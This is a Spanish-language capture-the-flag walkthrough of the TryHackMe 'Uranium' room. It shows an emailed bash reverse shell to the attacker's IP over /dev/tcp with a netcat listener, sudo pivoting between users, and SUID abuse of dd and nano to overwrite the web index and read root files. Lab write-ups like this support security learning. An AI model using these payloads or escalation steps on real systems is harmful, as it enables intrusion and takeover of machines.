

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/uranium)  | Dificíl  |  [hakanbey01](https://tryhackme.com/p/hakanbey01)  |

## Reconocimiento

Como en todos los CTF, ejecutamos [YAAS](https://github.com/lanfran02/YAAS) para obtener información sobre la máquina.

```bash
__  _____    ___   _____
\ \/ /   |  /   | / ___/
 \  / /| | / /| | \__ \  Yet Another Automation Script
 / / ___ |/ ___ |___/ /  Version 1.1 LOCAL
/_/_/  |_/_/  |_/____/   -By Lanfran02
			 (https://github.com/lanfran02/YAAS)

 ----------------
|                |
| Final output:  |
|                |
 ----------------
[+] Tun0 IP             :  10.9.1.53
[+] Machine IP          :  10.10.193.48
[+] Created Files       :  Nmap Result (nmap_Scan)
[+] Open Port/s         :  22,25,80
[+] SSH Server/s found? :  YES
[+] FTP Server/s found? :  NO
[+] Web Server/s found? :  YES
[+] Samba Server found? :  NO
```

```bash
# Nmap 7.91 scan initiated Sat Aug 21 13:43:15 2021 as: nmap -sS -sV -sC -p 22,25,80 -o nmap_Scan 10.10.193.48
Nmap scan report for 10.10.193.48
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:3c:d7:e9:d0:85:40:33:d5:07:16:32:08:63:31:05 (RSA)
|   256 24:81:0c:3a:91:55:a0:65:9e:36:58:71:51:13:6c:34 (ECDSA)
|_  256 c2:94:2b:0d:8e:a9:53:f6:ef:34:db:f1:43:6c:c1:7e (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: uranium, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=uranium
| Subject Alternative Name: DNS:uranium
| Not valid before: 2021-04-09T21:40:53
|_Not valid after:  2031-04-07T21:40:53
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  uranium; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 21 13:43:46 2021 -- 1 IP address (1 host up) scanned in 30.56 seconds
```
Entonces, tenemos un servidor `smtp` en ejecución, un servidor` web` y un servicio `ssh` en ejecución.

Pero el creador nos dio una cuenta de Twitter, ¡así que vamos a investigarla también!

Al leer el twitter, obtenemos algo de información ...


1. Ahora tenemos un dominio y un correo electrónico.
2. Sabemos que el usuario abre el contenido del correo en su terminal y espera un archivo con el nombre "application".


## Acceso inicial - Usuario

¿Qué pasa si enviamos un correo electrónico con una "aplicación" con una reverse shell?

Puede obtener la shell reverse desde este sitio [revshells](https://www.revshells.com/)

```bash
╰─ lanfran@parrot ❯ cat application                                                                                                ─╯
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.9.1.53/1337 0>&1"
```
¡Enviemos el correo ahora!

```bash
╰─ lanfran@parrot ❯ sendEmail -t hakanbey@uranium.thm -f lanfran@mail.com -s 10.10.105.19 -u "Im an exploit :)" -m "Im gonna hack you" -a application -o tls=no
Aug 21 12:50:21 parrot sendEmail[1992588]: Email was sent successfully!
```
¡¡Y después de unos segundos obtenemos una shell reversa con el usuario hakanbey!!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                       ─╯
listening on [any] 1337 ...
connect to [10.9.1.54] from (UNKNOWN) [10.10.105.19] 48468
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ ls
chat_with_kral4  mail_file  user_1.txt
hakanbey@uranium:~$ cat user_1.txt 
thm{[REDACTED]}
```
¡Podemos leer la flag del user_1!

Aquí viene la segunda parte del reconocimiento :)

Después de revisar la máquina ...

Tenemos un archivo pcap, así que lo descargué y lo leí con wirehark.

```bash
hakanbey@uranium:~$ find / -name *.pcap 2> /dev/null 
/var/log/hakanbey_network_log.pcap
```
¡Este es un registro de una comunicación y tenemos una contraseña en texto plano!



¡¡Perfecto!! ¡Tenemos la contraseña para iniciar binario del chat dentro del home folder de hakanbey!

```bash
hakanbey@uranium:~$ ./chat_with_kral4 
PASSWORD :[REDACTED]
kral4:hi hakanbey

->hi
hakanbey:hi
kral4:how are you?

->fine and you ?
hakanbey:fine and you ?
kral4:what now? did you forgot your password again

->yes
hakanbey:yes
kral4:okay your password is [REDACTED] don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated
hakanbey@uranium:~$ sudo -l 
[sudo] password for hakanbey: 
Matching Defaults entries for hakanbey on uranium:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
hakanbey@uranium:~$ 
```

¡Así que ahora podemos hacer `sudo` a kral4 y leer la flag user_2!

```bash
hakanbey@uranium:~$ sudo -u kral4 /bin/bash
kral4@uranium:~$ id
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
kral4@uranium:~$ cat /home/kral4/user_2.txt 
thm{[REDACTED]}
```

## Root

Después de usar `LinPeas` encontré la carpeta de correo de nuestro usuario, con un correo interesante.

```bash
kral4@uranium:/home/kral4$ cd /var/mail
kral4@uranium:/var/mail$ ls
hakanbey  kral4
kral4@uranium:/var/mail$ cat kral4 
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--
```
Lo que sabemos hasta ahora, el usuario `root` envió un correo electrónico a `kral4` diciendo que "si recibimos un ataque de nuevo, le daré `SUID` al binario `nano` en su carpeta home".

Después de eso busqué los binarios `SUID`, y encontré uno muy interesante ...

```bash
-perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 113528 Feb  2  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
-rwsr-x--- 1 web kral4 76000 Apr 23 10:52 /bin/dd
```
`dd` Se usa para escribir datos en archivos, entoncesss...

Podemos usarlo para modificar la index de la web. Aquí está el link a [GTFOBins para explotarlo](https://gtfobins.github.io/gtfobins/dd/).

```bash
kral4@uranium:/home/kral4$ LFILE=/var/www/html/index.html 
kral4@uranium:/home/kral4$ echo "Dumped by lanfran02" | /bin/dd of=$LFILE
0+1 records in
0+1 records out
20 bytes copied, 0.000148921 s, 134 kB/s
kral4@uranium:/home/kral4$ cat /var/mail/kral4                           
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--


From root@uranium.thm  Sat Aug 21 11:25:17 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id A476F401A5
	for <kral4@uranium.thm>; Sat, 21 Aug 2021 11:25:17 +0000 (UTC)
Message-ID: <35569.014816673-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 21 Aug 2021 11:25:17 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-939019.459839077"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-939019.459839077
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I think our index page has been hacked again. You know how to fix it, I am giving authorization.

------MIME delimiter for sendEmail-939019.459839077--


kral4@uranium:/home/kral4$ ls -la
total 384
drwxr-x--- 3 kral4 kral4   4096 Aug 21 11:40 .
drwxr-xr-x 4 root  root    4096 Apr 23 08:50 ..
lrwxrwxrwx 1 root  root       9 Apr 25 11:12 .bash_history -> /dev/null
-rw-r--r-- 1 kral4 kral4    220 Apr  9 21:55 .bash_logout
-rw-r--r-- 1 kral4 kral4   3771 Apr  9 21:55 .bashrc
-rwxr-xr-x 1 kral4 kral4 109960 Apr  9 16:35 chat_with_hakanbey
-rw-r--r-- 1 kral4 kral4      5 Apr 23 14:03 .check
drwxrwxr-x 3 kral4 kral4   4096 Apr 10 00:21 .local
-rwsrwxrwx 1 root  root  245872 Aug 21 11:40 nano
-rw-r--r-- 1 kral4 kral4    807 Apr  9 21:55 .profile
-rw-rw-r-- 1 kral4 kral4     38 Apr 10 00:21 user_2.txt
You have new mail in /var/mail/kral4
```

¡Perfecto! Ahora tenemos el `SUID` en el binario `nano`, ¡así que podemos leer las flags restantes!

```bash
kral4@uranium:/home/kral4$ ./nano /root/root.txt
kral4@uranium:/home/kral4$ ./nano /var/www/html/web_flag.txt
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!